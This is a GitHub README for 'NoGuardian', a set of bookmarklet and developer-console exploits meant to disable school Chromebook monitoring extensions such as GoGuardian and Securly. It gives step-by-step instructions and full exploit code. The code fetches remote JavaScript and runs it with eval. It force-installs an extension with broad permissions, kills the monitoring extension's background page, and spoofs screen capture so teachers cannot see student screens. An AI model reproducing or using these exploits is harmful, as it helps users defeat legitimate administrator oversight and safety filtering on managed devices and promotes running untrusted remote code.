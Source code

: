 
# NoGuardian ChomeBook Bypass
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)
A bookmarklet to disable extensions based on LTBEEF with an interface based on the chrome extension page. Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

https://tylerhalltech.com/noguardian <br>
https://tylerhalltech.com/noguardian2


## OVERVIEW:

 1. [INGOT METHOD](#1-ingot-method--patched-)
 2. [EXTENSION LAUNCHER METHOD](#2-extension-launcher-method)
 3. [POINT BLANK SWAP LAUNCHER METHOD](#3-point-blank-swap-launcher-method)

## USAGE: 

<details><summary>1) INGOT METHOD (!! PATCHED !!)</summary>
<br>
Ingot has been patched on Chrome 106 or after. This will not be updated.

**1A) BOOKLET METHOD -- INGOT**
  For easy setup go the the website at https://tylerhalltech.com/noguardian or https://tylerhalltech.com/noguardian2
  1) Show your bookmarks bar with `ctrl + shift + b`
  2) Right click on the bar and choose Add Page
  3) Set the name to Ingot and the URL to the code above or:
    3a) [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit.js), [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit2.js), or [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit3.js)
  4) Go to [https://chrome.google.com/webstore_](https://chrome.google.com/webstore_)
  5) Click one of the bookmarkets you just created

**1B) MANUAL CONSOLE METHOD -- INGOT**
  1) Go to [https://chrome.google.com/webstore_](https://chrome.google.com/webstore_)
  2) Press `Ctrl + Shift + I` on the 404 page to open Chrome's Developer Tools.
  3) Go to the CONSOLE tab
  4) Paste the code from one of the three code snippets below and press enter
```
 fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

```
 (function () {var a = document.createElement('script');a.src ='https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```

```
 (function () {var a = document.createElement('script');a.src ='https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 5) You should now be able to disable any Google Chrome extension (including GoGuardian)
</details>

----------------

<details><summary>2) EXTENSION LAUNCHER METHOD</summary>
 <br>
A bookmarklet capable of installing extensions, for those without a allowlist.

**2A) Extension Launcher (Bookmarlet)**
  1) GO [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit4.js)
  2) Show your bookmarks bar with `ctrl + shift + b`
  3) Select all code, and drop into bookmarklet bar
  4) Navigate to https://chrome.google.com/webstorex
  5) Click the bookmarklet from step #3
  6) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  **Extra Notes** - If bookmarklets are blocked, you can use the MANUAL method below

**2B) Extension Launcher (Manual Method)**
  1) Navigate to https://chrome.google.com/webstorex
  2) Press `Ctrl + Shift + I` on the page to open Chrome's Developer Tools.
  3) Paste the code from [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit4.js) into the console and press enter -- Extension Launcher will load
  4) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  5) **Extra Notes** - If bookmarklets are blocked - This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

----------------

<details><summary>3) POINT BLANK SWAP LAUNCHER METHOD</summary>
 <br>
This exploit allows you to run scripts, on extensions pages.

**3A) Point Blank Swap Launcher (Bookmarlet)**
  1) GO [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit5.js)
  2) Show your bookmarks bar with `ctrl + shift + b`
  3) Select all code, and drop into bookmarklet bar
  4) Navigate to:
    4a) If you have Securly go to [HERE](https://tinyurl.com/bettergoofcurly)
    4b) If you have iBoss go to [HERE](https://tinyurl.com/goofboss)
    4c) If you have Cisco Umbrella go to [HERE](https://tinyurl.com/goofumbrella)
    4d) If you have Blocksi go to [HERE](https://tinyurl.com/goofsi)
    4e) If you have GoGuardian go to [HERE](https://tinyurl.com/goofguardian)
  5) Now most of these links are a block page (this is intentional) on each page should have a blue link, click the link on the page
  6) If it opens a blank page, click the bookmarklet from step #1 that you just made
  7) Click either hard disable or soft disable
  8) You can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work. 
  **Extra notes** - I recommend doing soft disable, which only disables it until restart. - The launcher idea was from [Bypassi#7037](https://bolg.glitch.me/_/point-blank/)

**3B) Point Blank Swap Launcher (Manual Method)**
  1) Navigate to:
    1a) If you have Securly go to [HERE](https://tinyurl.com/bettergoofcurly)
    1b) If you have iBoss go to [HERE](https://tinyurl.com/goofboss)
    1c) If you have Cisco Umbrella go to [HERE](https://tinyurl.com/goofumbrella)
    1d) If you have Blocksi go to [HERE](https://tinyurl.com/goofsi)
    1e) If you have GoGuardian go to [HERE](https://tinyurl.com/goofguardian)
  2) Now most of these links are a block page (this is intentional) on each page should have a blue link, click the link on the page
  3) If it opens a blank page, continue to step #4
  4) Press `Ctrl + Shift + I` on the page to open Chrome's Developer Tools.
  5) Paste the code from [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit5.js) into the console and press enter -- Point Blank Swap Launcher will load
  6) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  **Extra notes** - I recommend doing soft disable, which only disables it until restart. - The launcher idea was from [Bypassi#7037](https://bolg.glitch.me/_/point-blank/)
</details>

-------------------------

<details><summary>CODE SNIPPETS:</summary>
 <br>
Ingot has been patched on Chrome 106 or after. This will not be updated.

**INGOT EXPLOITS**
 
<details><summary>Exploit #1 (CUSTOM)</summary>

[Exploit #1](https://github.com/tyhallcsu/noguardian/blob/main/exploit.js) (CUSTOM)

```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
 
</details>
 
-------------------------
 
<details><summary>Exploit #2 (INGOT)</summary>
<br>
[Exploit #2](https://github.com/tyhallcsu/noguardian/blob/main/exploit2.js) (INGOT)

```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 
 </details>
 
-------------------------
 
<details><summary>Exploit #3 (INGOT FIX)</summary>
 <br>
[Exploit #3](https://github.com/tyhallcsu/noguardian/blob/main/exploit3.js) (INGOT FIX)

```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 
 </details>
 
-------------------------
 
<details><summary>Exploit #4 Extension Launcher</summary>
 <br>
[Exploit #4](https://github.com/tyhallcsu/noguardian/blob/main/exploit4.js) -- Extension Launcher

A bookmarklet capable of installing extensions, for those without a allowlist.
<br>
 ```javascript: document.write(
 "<center><head><h1>Extension Launcher </h1></head></center><center><h3>Instructions: Put in the id of the extension, the icon of the extension, and the name of the extension</h3></center><center><br><input  id='icon' placeholder='Put Extension Icon here'></br></center><center><br><input id='name' placeholder='Put name here'></br></center><center><br><input id='extension' maxlength='32' placeholder='Put extension id here'></br></center><center><br><button id='submit'>Download</button></br></center>\n<style> textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}button,input,pre,select,textarea{border-radius: 21px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:25px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:25px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none;border-radius:25px; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style> "
 ),
 document.getElementById("submit").addEventListener(
 "click",
 function () {
  var empty = document.getElementById("extension").value;
  if (empty == "") {
    alert("Must put a id");
  }

  let icon = document.getElementById("icon").value;
  let name = document.getElementById("name").value;
  let extension = document.getElementById("extension").value;
  chrome.webstorePrivate.beginInstallWithManifest3(
    {
      esbAllowlist: !0,
      iconUrl: "" + icon,
      id: "" + extension,
      localizedName: "" + name,
      manifest:
        '{\n"update_url": "https://clients2.google.com/service/update2/crx",\n\n    "manifest_version": 2,\n    "content_security_policy": "script-src \'self\'; object-src \'self\';",\n    "minimum_chrome_version": "71.0.0.0",\n    "offline_enabled": true,\n    "content_scripts":\n    [\n        {\n            "js": [\n                "page.js",\n                "content.js"\n            ],\n            "matches": [ "file:///*", "http://*/*", "https://*/*" ],\n            "run_at": "document_start",\n            "all_frames": true\n        }\n    ],\n    "browser_action": {\n        "default_icon": {\n            "19": "images/icon_grey19.png",\n            "38": "images/icon_grey38.png",\n            "16": "images/icon_grey16.png",\n            "24": "images/icon_grey24.png",\n            "32": "images/icon_grey32.png"\n        },\n        "default_title": "Tampermonkey",\n        "default_popup": "action.html"\n    },\n    "icons": {\n        "32": "images/icon.png",\n        "48": "images/icon48.png",\n        "128": "images/icon128.png"\n    },\n    "incognito": "split",\n    "name": "Tampermonkey",\n    "short_name": "Tampermonkey",\n    "version": "4.18.0",\n    "description": "The world\'s most popular userscript manager",\n    "default_locale": "en",\n    "background": {\n       "page": "background.html"\n    },\n    "options_page": "options.html",\n    "options_ui": {\n        "page": "options.html",\n        "chrome_style": false,\n        "open_in_tab": true\n    },\n    "commands": {\n        "toggle-enable": {\n            "description": "Toggle enable state"\n        },\n        "open-dashboard": {\n            "description": "Open dashboard"\n        },\n        "open-dashboard-with-running-scripts": {\n            "description": "Open dashboard with the current tab\'s URL used as filter"\n        },\n        "open-new-script": {\n            "description": "Open new script tab"\n        }\n    },\n    "permissions": [\n        "notifications",\n        "unlimitedStorage",\n        "tabs",\n        "idle",\n        "webNavigation",\n        "webRequest", "webRequestBlocking",\n        "storage",\n        "contextMenus",\n        "chrome://favicon/",\n        "clipboardWrite",\n        "cookies",\n        "declarativeContent",\n        "<all_urls>"\n    ],\n    "optional_permissions" : [ "downloads" ]\n}\n',
    },
    function () {
      chrome.webstorePrivate.completeInstall("" + extension, function () {
        console.log(arguments);
      });
    }
  );
 },
 !1
 );
 ```

</details>
 
-----------------
  
<details><summary>Exploit #5 -- Point Blank Swap Launcher</summary>
<br>
[Exploit #5](https://github.com/tyhallcsu/noguardian/blob/main/exploit5.js) -- Point Blank Swap Launcher
<br>
This exploit allows you to run scripts, on extensions pages

```
javascript: (document = window.document),
  document.write(
    "<html>          <body>       <center><head>     <h1>[Point Blank Swap Launcher]</h1><center><h1>---Disabling---</h1></center>\n<center><button id='soft'>Soft Disable</button></center><center><button id='hard'>Hard Kill</button></center><center><button id='reload'>Reload Blocker</button></center><center><center><h1> ---Scripts--- </h1></center><center><button id='hide'>Hide tabs</button><button id='cool'>Create cool looking window</button></center><center><h3> Custom Notification </h3> </center> <input id='title' placeholder='Put title here'><input id='messer' placeholder='Put message here'><button id='notification'>Show Notification</button></center><center><button id='dns'>DNS emulator</button><center></center><center><center><center><h3>Run scripts as background </h3></center><textarea  id='code' placeholder='Put Code Here'></textarea></center><center><button id='google'>Run on google</button><button id='when'>When you click your extension</button></center><center></center> </body>\n          </html>\n <style> textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}input {border-radius: 12px; color:#000;font-size:15px} textarea {border-radius: 21px; color:#000;font-size:15px} button,pre { border-radius: 12px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{ border-radiusfont-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:25px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:25px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style>\n"
  ),
  document.getElementById("hide").addEventListener(
    "click",
    function () {
      alert(
        "This will open a window, which your teacher will only be able to see the window this opens, so open another one after this one opens"
      ),
        (opener.chrome.tabs.captureVisibleTabAsync =
          opener.chrome.tabs.captureVisibleTabAsync || screenshot_old);
      opener.chrome.windows.getAllAsync =
        opener.chrome.windows.getAllAsync || get_tabs_old;
      clearInterval(spoof_int);
      if (spoof_int) alert("Your teacher can't see your screen now!");
      spoof_int = null;
      `
            : `;
      var spoof_int,
        visible_id = 0,
        screenshot_old =
          screenshot_old || opener.chrome.tabs.captureVisibleTabAsync,
        get_tabs_old = get_tabs_old || opener.chrome.windows.getAllAsync,
        get_tabs_new = function () {
          return new Promise((resolve, reject) => {
            get_tabs_old({
              populate: true,
              windowTypes: ["normal"],
            }).then((tabs) => {
              tabs.forEach((tab) => {
                if (tab.id === visible_id) resolve([tab]);
              });
            });
          });
        };
      opener.chrome.windows.create({ url: "https://google.com" }, (win) => {
        visible_id = win.id;
        spoof_int = setInterval(() => {
          opener.chrome.windows.getLastFocused((window) => {
            var visible = window.id === visible_id;
            opener.chrome.tabs.captureVisibleTabAsync = visible
              ? screenshot_old
              : null;
            opener.chrome.windows.getAllAsync = visible ? get_tabs_new : null;
          });
        }, 5);
      });
    },
    !1
  ),
  document.getElementById("cool").addEventListener(
    "click",
    function () {
      opener.chrome.windows.create({
        url: "https://www.google.com",
        type: "popup",
      });
    },
    !1
  ),
  document.getElementById("dns").addEventListener(
    "click",
    function () {
     opener.chrome.webRequest.onBeforeRequest.addListener(
  () => {
    return { redirectUrl: "javascript:" };
  },
  {
    urls: ["*://*.securly.com/*"],
  },
  ["blocking"]
);

    },
    !1
  ),
  document.getElementById("notification").addEventListener(
    "click",
    function () {
      opener.chrome.notifications.create(null, {
        type: "basic",
        iconUrl:
          "https://upload.wikimedia.org/wikipedia/en/9/9a/Trollface_non-free.png",
        title: "" + document.getElementById("title").value,
        message: "" + document.getElementById("messer").value,
      });
    },
    !1
  ),
  document.getElementById("google").addEventListener(
    "click",
    function () {
      alert("Go to google.com to see your code");
      javascript:(function(){opener.chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status == "complete" && tab.url.includes('google.com')) {
    opener.chrome.tabs.executeScript(
      tabId, { code: `
      ` + document.getElementById("code").value
             }
    );
  }
})})()
    },
    !1
  ),
  document.getElementById("hard").addEventListener(
    "click",
    function () {
      javascript: (localStorage.cluster =
        "UNKNOWN_SCHOOL," +
        (confirm("This will disable your blocker until the removal of your account, if you want something less permanent use soft disable, continue?")
          ? 99999999999999
          : 0)),
        opener.chrome.extension.getBackgroundPage().location.reload();
    },
    !1
  ),
  document.getElementById("reload").addEventListener(
    "click",
    function () {
      localStorage.cluster = "UNKNOWN_SCHOOL,0";
      opener.chrome.runtime.reload();
    },
    !1
  ),
  document.getElementById("soft").addEventListener(
    "click",
    function () {
  document.getElementById("soft").innerHTML = "Disabled";
      opener.chrome.extension.getBackgroundPage().close();
    },
    !1
  ),
  document.getElementById("when").addEventListener(
    "click",
    function () {
      opener.chrome.browserAction.onClicked.addListener(() => {
        opener.chrome.tabs.query(
          { active: true, currentWindow: true },
          (tab) => {
            opener.chrome.tabs.executeScript(tab[0].id, {
              code:
                `
      ` + document.getElementById("code").value,
              matchAboutBlank: true,
            });
          }
        );
      });
      alert("Everytime you click your extension, your code will show");
    },
    !1
  );
  ```
 </details>
 
 Find more exploits here: https://3kh0.github.io/ext-remover/
 
